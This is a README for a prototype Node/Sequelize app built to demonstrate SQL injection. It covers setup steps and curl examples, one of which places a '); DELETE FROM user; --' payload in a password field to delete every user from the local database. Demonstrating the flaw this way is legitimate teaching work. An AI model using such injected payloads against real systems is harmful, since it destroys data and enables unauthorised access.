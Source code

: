 # SQL Injection with Sequelize #

This application is a demonstration prototype just to show how to perform SQLi attack.


## Install

- Install node modules

```
npm install
```

- Create database

```
sudo -u root mysql -u root < database.sql
```

- Set env vars (in .env file)

```
DB_PASSWORD=p4ssw0rd
```

- Run

```
npm start
```

## Usage

- Create user

```
curl --header "Content-Type: application/json" \
    --request POST \
    --data '{"name":"Frodon Saque","password":"azerty"}' \
    http://localhost:3000/users
```

- Use SQL Injection to drop all users

```
curl --header "Content-Type: application/json" \
    --request POST \
    --data '{"name":"Frodon Saque","password":"azerty'\''); DELETE FROM user; -- "}' \
    http://localhost:3000/users
```

## What still needs to be done

- [ ] Add get users controller
